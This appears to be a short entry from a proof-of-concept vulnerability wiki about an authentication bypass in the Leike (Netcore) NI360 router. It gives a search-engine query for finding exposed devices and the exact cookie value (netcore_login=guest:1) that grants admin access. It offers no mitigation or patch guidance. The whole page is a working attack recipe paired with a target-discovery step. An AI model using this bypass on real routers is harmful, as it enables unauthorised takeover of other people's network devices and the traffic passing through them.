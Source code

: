 # Leike NI360 router netcore_loginnetcore_login authentication bypass vulnerability

## Vulnerability Description

Leike NI360 router has authentication bypass vulnerability, and obtains background permissions by adding specific cookie fields.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Leike NI360 router</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Netcore"</span>

## Vulnerability Description

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210609112109559.png)



Add Cookie field: `netcore_login=guest:1`, log in to the background after refreshing

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210609175225486.png)
